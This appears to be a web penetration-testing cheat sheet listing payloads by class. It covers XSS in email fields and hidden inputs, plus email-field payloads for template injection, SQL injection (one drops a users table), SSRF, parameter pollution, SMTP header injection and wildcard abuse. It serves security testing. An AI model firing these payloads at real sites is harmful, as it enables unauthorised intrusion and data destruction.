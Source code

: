 # XSS

:pushpin: 1. Test all url parameters for reflection and start manipulation. </br>
:pushpin: 2. In the email section try to input the following email if there is a validation.

```
test+(<script>alert(0)</script>)@example.com

test@example(<script>alert(0)</script>).com

"<script>alert(0)</script>"@example.com
```

:pushpin: 3. XSS on input type hidden
Can be used when payload is injected BEFORE type="hidden" attribute (XSS is triggered without interaction
```
http://web.com/?c=red" type=image src=1 onerror="alert(1)

<input name="color" value="red" type="image" src="1" onerror="alert(ERIC)" type="hidden">
```

Can be used when payload is injected AFTER type="hidden" attribute (Firefox Only) <kbd>ALT+SHIFT+X / CMD+ALT+X</kbd>
```
http://web.com/?c=red" accesskey=x onclick="alert(ERIC)

<input type="hidden" name="color" value="red" accesskey="x" onclick="alert(ERIC)">
```

# REDIRECT
:pushpin: 1. Host Header Injection [https://www.youtube.com/watch?v=EPmcOtIJ7dA](https://www.youtube.com/watch?v=EPmcOtIJ7dA)



# EMAIL VALIDATION
:pushpin: 1. Check the following email if email is fully validated. [https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view](https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view)

Template injection
```
"<%= 7 * 7 %>"@example.com

test+(${{7*7}})@example.com
```

SQLi
```
"' OR 1=1 -- '"@example.com

"mail'); DROP TABLE users;--"@example.com
```

SSRF
```
john.doe@abc123.burpcollaborator.net

john.doe@[127.0.0.1]
```

Parameter pollution
```
victim&email=attacker@example.com
```

Header injection
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com

"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

Wildcard abuse
```
%@example.com
```
